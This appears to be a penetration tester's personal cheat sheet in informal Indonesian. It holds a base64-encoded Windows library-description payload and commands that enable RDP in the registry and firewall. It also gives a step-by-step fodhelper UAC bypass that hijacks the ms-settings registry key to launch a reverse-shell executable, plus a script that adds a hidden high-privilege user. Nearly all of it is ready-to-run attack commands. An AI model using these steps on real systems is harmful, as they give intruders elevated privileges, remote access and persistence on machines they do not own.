 ```bash (JGN LANGSUNG COPY SMW, NTAR RUSAK, LINE BY LINE)
IDx0ZW1wbGF0ZUluZm8+DQogICAgPGZvbGRlclR5cGU+ezdkNDlkNzI2LTNjMjEtNGYwNS05OWFh
LWZkYzJjOTQ3NDY1Nn08L2ZvbGRlclR5cGU+DQogIDwvdGVtcGxhdGVJbmZvPg0KICA8c2VhcmNo
Q29ubmVjdG9yRGVzY3JpcHRpb25MaXN0Pg0KICAgIDxzZWFyY2hDb25uZWN0b3JEZXNjcmlwdGlv
bj4NCiAgICAgIDxpc0RlZmF1bHRTYXZlTG9jYXRpb24+dHJ1ZTwvaXNEZWZhdWx0U2F2ZUxvY2F0
...
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBPC9zZXJpYWxpemVkPg0KICAgICAgPC9zaW1wbGVM
b2NhdGlvbj4NCiAgICA8L3NlYXJjaENvbm5lY3RvckRlc2NyaXB0aW9uPg0KICA8L3NlYXJjaENv
bm5lY3RvckRlc2NyaXB0aW9uTGlzdD4NCjwvbGlicmFyeURlc2NyaXB0aW9uPg==

--boundary_string--
.
```

## Enable RDP (enable remote desktop)
```cmd
Powershell:
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

CMD:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Enable on firewall:
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

## KALO UDAH LOCAL ADMINISTRATOR TAPI GK BISA AKSES ADMINISTRATOR (UAC bypass)
1. Cari bypass UAC via CLI. Fodhelper paling gampang
2. Reference
https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/
https://www.youtube.com/watch?v=XF8_7yE-BM0&t=0s&ab_channel=GeminiCyberSecurity
```cmd
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\nox\shell.exe" -Force
```
3. Set a listener buat nerima shell.exenya
4. Execute fodhelper
```cmd
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
==== ATO GK PAKE SCRIPT INI AJA
https://raw.githubusercontent.com/winscripting/UAC-bypass/master/FodhelperBypass.ps1 (UDAH GW CUSTOM DI /opt/FodhelperBypass.ps1)

5. Dia bakal add user nox baru yg high priority.
6. Tinggal gini aja, upload lalu:
```cmd
. .\FodhelperBypass.ps1
FodhelperBypass
```
7. Checknya jalanin `whoami /groups` harusnya ada `Mandatory Label\High Mandatory Level`
